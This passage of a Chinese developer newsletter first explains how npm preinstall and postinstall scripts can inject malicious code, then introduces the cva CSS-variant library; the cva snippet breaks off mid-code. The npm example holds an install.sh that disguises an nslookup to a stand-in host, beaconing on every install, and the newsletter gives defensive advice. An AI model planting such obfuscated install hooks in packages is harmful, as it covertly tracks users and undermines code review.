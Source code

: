 文章介绍了 npm 预安装和后安装脚本如何被用为注入恶意代码到开源包的方式，并举出了一个实际的恶意 npm 包的例子。

在这个例子中，有一个名为 "very-trustyworthy-package" 的包，它包括一个在安装时运行的 `preinstall` 脚本，该脚本有一个 `install.sh` 的 shell 脚本。

```json
{
  “name”: “very-trustyworthy-package”,
  “version”: “0.0.42”,
  “scripts”: {
    “preinstall”: “sh install.sh”
  }
}
```

```shell
#!/usr/bin/env sh

echo “Starting build..."
amount=ample
former=ex
organization=org
install_a=nslo
install_b=okup

$install_a$install_b trustworthy-package.xyz.$former$amount.$organization >/dev/null

echo “Build succeeded..."
```

执行上述安装脚本后，它会进行一个 DNS 调用，查找 `trustworthy-package.xyz.example.org`。

这个包的设计者可以通过这种方式知道有人安装了他们的包，并获取了一些信息。

文中也提供了一些方法来保护自身安全，比如运行带有 `--ignore-scripts` 选项的 npm，避免执行`preinstall` 或 `postinstall` 脚本，并使用 Trusty 和 Minder 这类自动化的依赖分析和强制执行的工具。

## 开源与库

### 一、 [twc，基于 react 与 tailwind 通过一行代码就能创建出可复用的组件](https://cva.style/docs)

cva 旨在为开发者提供一种更方便的方法，以解决 "传统" 的 CSS 方法在创建 CSS 类变体以及匹配类到组件属性时可能出现的一些麻烦。

在传统的方法中，开发者需要将 CSS 类手动匹配到组件的属性，并手动添加类型。这些看似简单，实际上却可能非常繁琐和耗时。

cva 帮助开发者简化这些过程，让他们可以专心于 UI 开发的有趣部分。具体地，如果你需要在组件中创建一个 'primary' 变体，你可以这样做：

```javascript
mport { cva } from "class-variance-authority";

const button = cva(["font-semibold", "border", "rounded"], {
  variants: {
    intent: {
      primary: [
        "bg-blue-500",
        "text-white",
        "border-transparent",
        "hover:bg-blue-600",
      ],
      secondary: [
        "bg-white",
        "text-gray-800",
        "border-gray-400",
        "hover:bg-gray-100",
      ],
    },
    size: {
```